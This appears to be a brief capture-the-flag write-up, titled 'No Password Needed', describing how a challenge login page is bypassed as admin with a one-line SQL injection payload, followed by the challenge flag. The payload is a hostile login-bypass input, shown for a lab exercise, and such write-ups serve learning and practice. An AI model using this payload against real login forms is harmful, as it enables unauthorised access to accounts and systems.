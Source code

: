 # No Password Needed

We are given a website that shows a login site that we need to access as an admin.

We can do a SQL Injection Attack in order to access it.

``` 'or"1=1"-- ```

# Flag

> flag{wh0_n3ed5_a_p4ssw0rd_anyw4y}
